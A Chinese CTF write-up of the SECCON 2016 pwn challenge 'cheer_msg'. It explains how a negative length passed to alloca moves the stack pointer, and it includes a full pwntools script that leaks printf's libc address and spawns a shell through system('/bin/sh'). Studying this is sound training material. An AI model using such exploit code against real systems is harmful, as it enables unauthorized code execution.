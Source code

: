 <!--yml
category: 未分类
date: 2022-04-26 14:31:59
-->

# Seccon-ctf-2016-pwn-cheer_msg 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/114011564](https://blog.csdn.net/A951860555/article/details/114011564)

# 文件信息

样本来自2016年Seccon ctf的一道pwn题–[cheer_msg](https://download.csdn.net/download/A951860555/15446455)，同时这道题目也给了[libc](https://download.csdn.net/download/A951860555/15446916)文件，减少了漏洞利用难度。
检查样本信息:
  32位小端程序，开启了栈溢出保护和NX保护。
![check](img/51db4e32b5a4d14dbabb26117b9ff3c6.png)

# 漏洞定位

![main](img/f5f231861c393072d6cd3eb15ca1fc33.png)
整个程序还是比较易懂的，主体逻辑存在于main和message两个函数。上图展示了main函数的伪C代码，要求输入一个长度，然后按照长度进行相应计算后使用alloca在栈上分配空间。这道题目比价新颖的是使用了alloca函数，该函数不同于一般的堆内存分配函数，它会将内存分配到栈中，因此该内存分配函数在实际编程中用的比较少。
![message](img/0be5af79c044b41df8c68b6b9eff6a23.png)
接着，我们看一下message函数，伪C代码截图如上，第一个getnline调用将n个字节存入到a1变量所在的地址中，该变量即是main中的v7变量，这里考虑到n是我们输入的值，所以猜想这里可能存在栈溢出。然后接着往下看，第二个getnline调用将64字节存到v3中，随后打印了v3和a1内存位置的值，初步分析这里由于读取限制了长度且栈上空间足够大，所以没有明显的溢出漏洞。

# 利用分析

  关于漏洞利用，这里我一开始的思路是利用message函数中第一个getnline造成缓冲区溢出，利用第二个getnline以及printf泄露canary。不过后来发现，main函数中并没有canary机制，因此如果只是利用main栈帧溢出的话是不需要泄露canary的。随后在漏洞利用过程中，我发现存在一些问题，因为想着是缓冲区溢出，所以希望输入的n尽可能大。但如果n是一个正整数的话，就会发现getnline读入的内容永远都是小于main中的padding，因为alloca会抬高esp，v7的值也是由esp决定的，这里可以详细查看汇编代码进行分析。
  因此这里我们可以反向思维一下，将n取为负数，这样会使esp向下移动（栈顶为低地址，栈底为高地址）。当我们把esp指针往下移，使其低于main函数自身的ebp，之后再进入message函数时，此时栈帧从当前esp开始往上增加。此时利用第二个getnline将payload布置在栈上（由于输入的n为负数，所以这里第一个getnline已经无法获取输入），这里不需要溢出，由于esp低于原来main的ebp，所以这里调整好payload的offset就能将其有序的布置在main函数的ret addr后，实现漏洞利用。最后就是payload的构造了，采用ROP的方式利用printf函数打印出printf自身的地址，然后根据给出的libc库文件计算出基址，再调用system("/bin/sh\x00")。

# wp

```
from pwn import *

p = process("./cheer_msg")
pro = ELF("./cheer_msg")
libc = ELF("./libc.so.6_x86")

printf = pro.plt["printf"]
printf_got = pro.got["printf"]
start = 0x080484B0

p.sendlineafter("Message Length >> ", "-100")
pad = cyclic(44+4)   
pad += p32(printf) + p32(start) + p32(printf_got)

p.sendlineafter("Name >> ", pad)

p.recvuntil("Message : \n")
addr = p.recv(4)
addr = u32(addr)
print("=============", addr, hex(addr))

base = addr - libc.symbols["printf"]
sys = base + libc.symbols["system"]
sh = base + next(libc.search(b"/bin/sh\x00"))

p.sendlineafter("Message Length >> ", "-100")
pad = cyclic(44+4)
pad += p32(sys) + p32(start) + p32(sh)
p.sendlineafter("Name >> ", pad)

p.interactive() 
```

# 总结

本题目用了一个比较少见的alloca函数，同时漏洞利用的思路也算是别开新面，需要利用alloca去分配负的内存空间，从而让esp栈顶指针向栈底移动，让一个本身没有溢出的函数实现payload的布置。另外在漏洞具体实现的过程中，payload的offset确定是一个比较关键的问题，这里推荐大家动态调试，快捷且方便。